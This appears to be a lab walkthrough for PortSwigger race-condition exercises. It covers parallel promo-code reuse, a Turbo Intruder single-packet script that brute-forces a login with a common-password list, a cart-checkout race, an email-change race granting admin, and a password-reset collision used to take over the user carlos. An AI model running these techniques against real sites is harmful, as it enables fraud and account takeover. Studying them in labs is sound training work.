



**Step1:**

Click on view product then check stock


Then


**Step2:**

Intercept the promo request while entering


Click on apply

**Step3**

Send the intercepted request to repeater


Send this request many time almost 20 to 30

And create group of all request by click on plus sign with request


Select the send type to send group in parallel (single packet)


Now turn off intercept and go to cart

We can see discount


Click on place order to solve the lab


**Step1**

Login with incorrect credential like hello: new

**Step2**

Install turbo intruder. And send the /post  login request to

Rigth click request->Extension->turbo intruder-> send to turbo intruder  

Select attack type to race- single-packet-attack


Modify default script to
```
def queueRequests(target, wordlists):  

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack

    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead

    # for more information, check out https://portswigger.net/research/smashing-the-state-machine

    engine = RequestEngine(endpoint=target.endpoint,

                           concurrentConnections=1,

                           engine=Engine.BURP2

                           )

  

    # the 'gate' argument withholds part of each request until openGate is invoked

    # if you see a negative timestamp, the server responded before the request was complete

    passwords = [

        "123123",

        "abc123",

        "football",

        "monkey",

        "letmein",

        "shadow",

        "master",

        "666666",

        "qwertyuiop",

        "123321",

        "mustang",

        "123456",

        "password",

        "12345678",

        "qwerty",

        "123456789",

        "12345",

        "1234",

        "111111",

        "1234567",

        "dragon",

        "1234567890",

        "michael",

        "x654321",

        "superman",

        "1qaz2wsx",

        "baseball",

        "7777777",

        "121212",

        "000000"

    ]

    for p in passwords:

        engine.queue(target.req,p, gate='race1')

  

    # once every 'race1' tagged request has been queued

    # invoke engine.openGate() to send them in sync

    engine.openGate('race1')

  
  

def handleResponse(req, interesting):

    table.add(req)
```
  
Here we added a given password list. And  change username to carlos and add password to payload using %s


Here in result we can see password is master


Now go to admin panel and delete user carlos  


**Step1**

If we add order then we login we can clearly see that cart is empty. So there is a potential vulnerability.

**Step2**

Login with given credential and add a gift add to cart


**Step3:**

Send the POST /cart/checkout request to repeater  and add them to group

**Step4:**

Send them in send group in sequence single connection

We can see time taken by both request at bottom right


**Step5:**

In POST /cart request

 change product id to 1

In POST /cart/checkout we can see


So the fund is insufficient

**Step6**

Go to my account remove all jacket from stock and add one card

Note:no need to change product id from Post /cart which was set to one

**Step7:**

Now Send  request in the group in send group in parallel in one request

Do this several time that add git card and then send the request at one time it will buy a jacket .but keep in mind to remove jacket from the cart after very request and add a gift card.


**Step1:**

Login with given credential

**Step2:**

Update email address

`hello@exploit-0a4d00230384b06782ce107d01260012.exploit-server.net`

Go and verify email from email server.

This is my id `@exploit-0a4d00230384b06782ce107d01260012.exploit-server.net`

**Step3:**

Send  the request to repeater multiple time

POST /my-account/change-email and create group


Change one email to

`carlos@ginandjuice.shop`

And second to

`Hello1@exploit-0a4d00230384b06782ce107d01260012.exploit-server.net`

Create group of both email and send them in parallel (single packet attack)


**Step4:**

No we go to email server and verify hello1


**Step5:**

Refresh main page and we are login as admin




**Step1:**

Login with given credential

We have an email address and update email option

**Step2:**

Logout from account and click on forget password and enter email address


**Step3:**

Send the POST /forgot-password to repeater


Remove last line csrf token and username

Remove cookies line 

Right click and change request method to get


When we send the above request first time it have unique phpsessioNid and  crsf token for every request it is unique

**Step4:**

Send the Post /Forget-password requesT to repeater multIple time
And in first request set the phpsessionid and crsf come from above request ie Get request

Now send the above get request again and this time we have different  phpsessionid and crsf.
In second request set the value

But in second request set username to carlos

Create group of two request





Send the  reqUest in parallel

**Step5:**

Go to email server and open link


When we change username to carlos  in url we have


We change password for carlos user


Login with the credential carlos and password


Go to admin panel and delete user carlos

And lab is solve
